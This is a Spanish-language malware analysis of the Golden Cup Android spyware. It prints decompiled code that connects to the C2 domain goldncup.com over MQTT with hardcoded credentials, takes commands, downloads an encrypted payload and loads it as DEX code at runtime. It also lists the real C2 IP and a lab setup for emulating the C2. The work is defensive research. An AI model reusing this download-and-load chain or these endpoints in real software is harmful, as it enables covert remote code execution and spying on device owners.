

Golden Cup es un programa espía para Android asociado a una aplicación dirigida a soldados israelitas seguidores de la Copa Mundial 2018, como documentó Symantec en su [análisis de la campaña](https://symantec-enterprise-blogs.security.com/blogs/expert-perspectives/goldencup-new-cyber-threat-targeting-world-cup-fans). Este malware fue concebido como un segundo intento, sucesor de los malwares GlanceLove y WinkChat dado a que estos fallaron en su cadena de ingeniería social. El mundial de futbol fue, sin lugar a dudas, una elección más precisa. Se presume también que fue desarrollado con poco margen de tiempo, debido a la carencia completa de ofuscación. La familia es otro ejemplo más de la falta de seguridad en Google Play Store, al haberse distribuido desde la plataforma.


La muestra analizada establece un canal de mando mediante MQTT y puede recibir la URL de un segundo componente, descargarlo por HTTP y cargarlo dinámicamente. Esta cadena permite estudiar [**T1407 - Download New Code at Runtime**](https://attack.mitre.org/techniques/T1407/), técnica que MITRE atribuye a [Golden Cup (S0535)](https://attack.mitre.org/software/S0535/). 

| Artefacto       | Tipo           | Identificación                                                                           | SHA-256                                                            |
| --------------- | -------------- | ---------------------------------------------------------------------------------------- | ------------------------------------------------------------------ |
| `GoldenCup.apk` | APK de Android | Paquete `anew.football.cup.world.com.worldcup`; versión 1.1; API mínima 14 y objetivo 21 | `166f3a863bb2b66bda9c76dccf9529d5237f6394721f46635b053870eb2fcc5a` |

### Generación del identificador de cliente MQTT

El servicio `DwnMConn` crea el cliente MQTT con tres elementos: el dominio configurado, el puerto 1883 y un identificador derivado del dispositivo. El método `getClientId()` limita este último valor a 22 caracteres, que es la longitud máxima admitida por la implementación:

```java
private void initMqttAndroidClient() {
    if (this.mqttAndroidClient != null) {
        return;
    }
    this.brokerIp = GConfig.TCP
        + GConfig.getServerDomain()
        + ":".concat("1").concat("8").concat("8").concat("3");
    this.mqttAndroidClient = new MqttAndroidClient(
        getApplicationContext(),
        this.brokerIp,
        getClientId()
    );
    this.mqttAndroidClient.setCallback(this);
}

private static String getClientId() {
    if (mqttClientId == null) {
        mqttClientId = DeviceID.getEncodedID();
        if (mqttClientId.length() > 22) {
            mqttClientId = mqttClientId.substring(0, 22);
        }
    }
    return mqttClientId;
}
```

La clase `DeviceID` conserva el identificador sin transformar y calcula una única vez su representación codificada:

```java
public static String getID() {
    if (id == null) {
        id = getDeviceIdUnique(App.getAppContext());
    }
    return id;
}

public static String getEncodedID() {
    if (encodedID == null) {
        encodedID = Translator.encode(getID());
    }
    return encodedID;
}
```

El método `getDeviceIdUnique()` no combina todos los atributos recuperados. Selecciona el primer valor válido conforme a este orden: identificador de telefonía, número de serie, identificador seudónimo, Android ID y dirección MAC de la interfaz Wi-Fi. Los valores nulos, vacíos o conocidos por ser genéricos se descartan antes de avanzar al siguiente candidato:

```java
String teleID = getTeleID(context);
String androidID = getAndroidID(context);
String pseudoID = getPseudoID();
String wifiMacAddress = getWifiMacAddress();
String serialNumber = getSerialNumber();

return (teleID == null || teleID.length() <= 0
        || teleID.replace("0", "").length() <= 0)
    ? (serialNumber == null || serialNumber.length() <= 0
        || serialNumber.equals("00000000000"))
        ? (pseudoID == null || pseudoID.length() <= 0
            || pseudoID.contains(EnvironmentCompat.MEDIA_UNKNOWN))
            ? (androidID == null || androidID.length() <= 0
                || androidID.equals("9774d56d682e549c"))
                ? (wifiMacAddress == null || wifiMacAddress.length() <= 0)
                    ? ""
                    : !wifiMacAddress.equals("02:00:00:00:00:00")
                        ? wifiMacAddress
                        : ""
                : androidID
            : pseudoID
        : serialNumber
    : teleID;
```

La función `Translator.encode()` aplica una transformación determinista, no un cifrado. Divide la cadena en dos mitades, antepone la segunda a la primera e inserta dos valores decimales obtenidos mediante operaciones módulo 9:

```java
public static String encode(String str) {
    int length = str.length();
    if (length < 2) {
        return str;
    }
    String firstHalf = str.substring(0, str.length() / 2);
    String secondHalf = str.substring(str.length() / 2);
    int firstIndex = length % 5;
    int firstDigit = (firstIndex < length
        ? str.charAt(firstIndex)
        : str.charAt(0)) % '\t';
    int secondIndex = length % 3;
    return secondHalf
        + ((secondIndex < length ? str.charAt(secondIndex) : str.charAt(1)) % '\t')
        + firstHalf
        + firstDigit;
}
```

Este resultado identifica al cliente tanto en la sesión MQTT como en los temas utilizados para recibir órdenes y publicar estados. En este caso se ha decidido ejecutar la muestra en una máquina virtual y hacer análisis dinámico para ver que valor "escupe" por red en base a los parámetros que trae una máquina de Android Studio. El valor obtenido es `51111110635824006`.

### Conexión con el bróker

La clase `GConfig` construye el dominio letra a letra en base al enumerado `Letter`. En este caso se ve como el código ha sido escrito para ser ofuscado en el futuro (usa un enumerado para generar una cadena) aunque esta no ha sido aplicada aun. El extremo inicial queda definido como `tcp://www.goldncup.com:1883`:

```java
public static final String TCP = Utils
    .getName(new Letter[]{Letter.t, Letter.c, Letter.p})
    .concat("://");

private static String serverDomain = Utils
    .getName(new Letter[]{Letter.w, Letter.w, Letter.w})
    .concat(".")
    .concat(Utils.getName(new Letter[]{
        Letter.g, Letter.o, Letter.l, Letter.d,
        Letter.n, Letter.c, Letter.u, Letter.p
    }))
    .concat(".")
    .concat(Utils.getName(new Letter[]{Letter.c, Letter.o, Letter.m}));
```

El esquema `tcp://` confirma que MQTT circula directamente sobre TCP, sin TLS. El método `connectToBroker()` habilita la reconexión automática, conserva la sesión, fija un intervalo de mantenimiento de 900 segundos y configura con calidad de servicio 2 el mensaje de última voluntad:

```java
private void connectToBroker() {
    try {
        changeStatus(ConnectionStatus.CONNECTING);
        MqttConnectOptions options = new MqttConnectOptions();
        options.setUserName(this.USERNAME);
        options.setPassword(this.PASSWORD.toCharArray());
        options.setAutomaticReconnect(true);
        options.setCleanSession(false);
        options.setKeepAliveInterval(KEEP_ALIVE_SECONDS);
        options.setWill(
            generatePubTopic(DwnMConstants.CONN_STATE_INFO),
            DwnMConstants.OFFLINE_MSG,
            2,
            false
        );
        this.mqttAndroidClient.connect(options, null, new AnonymousClass2());
    } catch (MqttException unused) {
        changeStatus(ConnectionStatus.NOTCONNECTED_UNKNOWNREASON);
    }
}
```

Las credenciales también se forman mediante el enumerado `Letter`, que contiene las letras mayúsculas y minúsculas del alfabeto. Los valores resultantes son `dalexo` y `4-[eVW}b_]`:

```java
private final String USERNAME = Utils.getName(
    new Letter[]{Letter.d, Letter.a, Letter.l, Letter.e, Letter.x, Letter.o}
);

private final String PASSWORD = "4"
    .concat("-")
    .concat("[")
    .concat(Utils.getName(new Letter[]{Letter.e, Letter.V, Letter.W}))
    .concat("}")
    .concat("b")
    .concat("_")
    .concat("]");
```

Al no existir TLS, el paquete MQTT `CONNECT` permite observar estas credenciales y el identificador del cliente. Después de recibir un `CONNACK` satisfactorio, el cliente se suscribe con calidad de servicio 2 a todos los temas situados bajo su espacio de órdenes:

```java
public static final String SUBSCRIPTION_TOPIC =
    DwnMConstants.ANDROID_LEVEL + File.separator
    + DwnMConstants.SERVER_PUBLISH_LEVEL + File.separator
    + getClientId() + File.separator
    + MqttTopic.MULTI_LEVEL_WILDCARD;

private void subscribeToTopic() {
    try {
        this.mqttAndroidClient.subscribe(
            SUBSCRIPTION_TOPIC,
            2,
            null,
            new AnonymousClass3()
        );
    } catch (MqttException unused) {
    }
}
```

Las constantes resuelven el tema como `RT/SV/<client-id>/#`. Durante el análisis estático se observa `RT/SV/51111110635824006/#`. El comodín multinivel permite que el broker entregue todas las órdenes publicadas bajo el espacio asignado a ese dispositivo.

Una vez completada la conexión, el cliente también publica su estado en el espacio inverso, reservado para mensajes de la aplicación al servidor:

```java
public void connectComplete(boolean reconnect, String serverURI) {
    changeStatus(reconnect
        ? ConnectionStatus.RECONNECTED
        : ConnectionStatus.CONNECTED);
    publishMessage(
        generatePubTopic(DwnMConstants.CONN_STATE_INFO),
        DwnMConstants.ONLINE_MSG
    );
}

public static String generatePubTopic(String infoType) {
    return DwnMConstants.ANDROID_LEVEL + File.separator
        + DwnMConstants.APP_PUBLISH_LEVEL + File.separator
        + getClientId() + File.separator
        + DwnMConstants.INFO_LEVEL + File.separator
        + infoType;
}
```

El mensaje resultante se publica con calidad de servicio 2 en `RT/AP/<client-id>/I/A` y contiene `ON`. La última voluntad utiliza el mismo tema con el cuerpo `OFF` si la sesión se interrumpe sin un cierre limpio.

La suscripción y el anuncio de estado se activan desde callbacks diferentes asociados al establecimiento de la misma sesión. El código no fija cuál de las dos publicaciones se completará primero, por lo que su orden relativo puede variar en la captura sin alterar el flujo.

El método `messageArrived()` recibe cada publicación del broker y copia por separado el tema y el cuerpo en un `Intent` dirigido a `DwrMMsgService`:

```java
public void messageArrived(String topic, MqttMessage mqttMessage) {
    try {
        String message = new String(mqttMessage.getPayload());
        Intent intent = new Intent(
            getApplicationContext(),
            DwrMMsgService.class
        );
        intent.putExtra(this.TOPIC_STRING, topic);
        intent.putExtra(this.MESSAGE_STRING, message);
        startService(intent);
    } catch (Exception unused) {
    }
}
```

El servicio receptor solo admite temas con cinco niveles. Los cuatro primeros deben corresponder a `RT`, `SV`, el identificador codificado del dispositivo y `C`; el quinto selecciona la acción:

```java
String[] parts = topic.split(MqttTopic.TOPIC_LEVEL_SEPARATOR);
if (parts.length == 5
        && parts[0].equals(DwnMConstants.ANDROID_LEVEL)
        && parts[1].equals(DwnMConstants.SERVER_PUBLISH_LEVEL)
        && parts[2].equals(DeviceID.getEncodedID())
        && parts[3].equals(DwnMConstants.CMD_LEVEL)) {
    // El quinto nivel selecciona la orden.
}
```

| Tema recibido | Acción local |
|---|---|
| `RT/SV/<client-id>/C/a` | Iniciar la descarga desde la URL incluida en el cuerpo MQTT |
| `RT/SV/<client-id>/C/b` | Recopilar información del dispositivo |
| `RT/SV/<client-id>/C/c` | Responder a la comprobación de disponibilidad |
| `RT/SV/<client-id>/C/d` | Sustituir el dominio del servidor y reiniciar los servicios de comunicación |

El tema seleccionado para T1407 esta formado con la orden `a`. El cuerpo de la publicación no contiene el artefacto: contiene la URL que se entrega sin modificaciones al constructor de `DwrFileDownloader`:

```java
if (parts[4].equals(DwnMConstants.INSTALL_APP_CMD)) {
    new DwrFileDownloader(message).start();
    return;
}
```

Antes de iniciar la transferencia, el descargador exige que la URL contenga el dominio configurado. La respuesta debe ser `200 OK` y el último segmento de la URL debe terminar en `.data`:

```java
private void download() {
    if (this.url.contains(GConfig.getServerDomain())) {
        CFile filesDir = new CFile(App.getAppContext().getFilesDir().getPath());
        if (downloadFile(this.url, filesDir.getAbsolutePath())) {
            String fileName = this.url.substring(this.url.lastIndexOf(47) + 1);
            CFile dataFile = new CFile(filesDir.getAbsolutePath(), fileName);
            if (dataFile.exists() && fileName.endsWith(GConfig.ENC_EXTENSION)) {
                decryptUnzipFile(dataFile.getAbsolutePath());
                // Comprobación del DEX y transición a MainService.
            }
        }
    }
}

private static boolean downloadFile(String url, String destination) {
    HttpURLConnection connection =
        (HttpURLConnection) new URL(url).openConnection();
    if (connection.getResponseCode() != 200) {
        connection.disconnect();
        return false;
    }
    // Copia del cuerpo de la respuesta al directorio interno de la aplicación.
    return true;
}
```

La transferencia se realiza mediante `HttpURLConnection` y, por tanto, produce una petición HTTP `GET`. Si el servidor incluye `Content-Disposition`, el nombre indicado en esa cabecera debe coincidir con el último segmento de la URL; de lo contrario, la descarga se guardaría con un nombre que la comprobación posterior no encontraría.

El fichero `.data` no es un DEX sin procesar. La muestra extrae del contenedor una clave AES de 32 bytes, elimina esos bytes de la carga cifrada y descifra el resto. La posición de la clave se calcula a partir de la longitud del contenido cifrado y del módulo 573:

```java
byte[] data = dataFile.read();
byte[] decrypted = Cryptor.decrypt(
    Cryptor.extractKey(data, GConfig.ENC_MOD),
    Cryptor.extractData(data, GConfig.ENC_MOD)
);
```

La transformación solicitada por `Cryptor` es `AES`; en el proveedor criptográfico de Android se resuelve como AES en modo ECB con relleno PKCS#5. El resultado se escribe temporalmente como ZIP y se extrae mediante `ZipInputStream`. Durante la lectura se calcula Adler-32 y se compara con el número situado después del primer guion bajo del nombre:

```java
CheckedInputStream checkedInput = new CheckedInputStream(
    new FileInputStream(zipFile),
    new Adler32()
);
ZipInputStream zipInput = new ZipInputStream(
    new BufferedInputStream(checkedInput)
);

// Extracción de las entradas del ZIP.

return checkedInput.getChecksum().getValue()
    == Long.parseLong(
        zipFile.dropExtension(GConfig.ZIP_EXTENSION).split("_")[1]
    );
```

Por ejemplo, `stage_1725773520.data` se transforma en `stage_1725773520.zip`, cuyo Adler-32 debe ser `1725773520`. Tras la extracción, el descargador exige que exista exactamente un archivo con extensión `.dex`, publica `YES` en `RT/AP/<client-id>/I/B` y arranca `MainService`. Este acuse confirma la recepción de un DEX, no que su inicialización posterior haya finalizado correctamente. La segunda en realidad no nos es de tanto interés, nuestro objetivo se basa en obtener un PCAP, que se instale localmente no importa y permite ahorrar tiempo en el análisis.

Las clases `ConnManager`, `ReceiverManager` y `TaskManager` completan la relación con T1407: crean un `DexClassLoader` sobre `out.dex` y recuperan las implementaciones de la segunda etapa. Una vez resueltas las cadenas construidas mediante `Letter`, el fragmento de `ConnManager` equivale a lo siguiente:

```java
connectionManager = (ConnManagerIF) new DexClassLoader(
    App.getAppContext().getFilesDir().getAbsolutePath()
        + File.separator + "out.dex",
    App.getAppContext().getDir("dex", 0).getAbsolutePath(),
    null,
    ConnManager.class.getClassLoader()
).loadClass(
    App.getAppContext().getPackageName()
        + ".update.main.ConnManager"
).newInstance();
```

De este modo, la publicación MQTT de la orden, la petición HTTP y la respuesta que transporta el contenedor son los elementos directamente observables en red. El descifrado, la extracción, la comprobación Adler-32 y la carga de `out.dex` son operaciones locales que permiten demostrar la finalidad de la transferencia, pero no generan paquetes por sí mismas.

### Secuencia comunicativa

El diagrama representa la ruta mínima desde la resolución del extremo hasta la recepción del segundo componente:



### Laboratorio de generación del PCAP

El laboratorio ejecuta la APK original en una máquina virtual, basada en Android API 21. Android Emulator permanece en Windows y Kali WSL aloja las entidades controladas. La configuración se ha establecido de la siguiente manera:

| Entidad          | Dirección y servicio                        | Procedencia                                                                                                                                                                                                                                                             |
| ---------------- | ------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| DNS controlado   | `10.230.35.53:53`                           | Dirección privada asignada al resolutor del laboratorio.                                                                                                                                                                                                                |
| C2 de Golden Cup | `107.175.144.26:1883` y `107.175.144.26:80` | IOC publicado por Symantec en el [análisis de Golden Cup](https://symantec-enterprise-blogs.security.com/blogs/expert-perspectives/goldencup-new-cyber-threat-targeting-world-cup-fans). El DNS lo entrega para `goldncup.com`; MQTT y HTTP comparten la misma entidad. |
| Operador MQTT    | `10.230.35.20`                              | Dirección privada asignada al participante que publica la orden. No es un IOC ni se anuncia a la muestra.                                                                                                                                                               |

El fichero `mqtt-server.conf` del laboratorio original se ha utilizado para la emulación. Mosquitto ha sido usado para el tráfico MQTT, debido a su sencillez de uso. El resto ha sido escrito en Python.


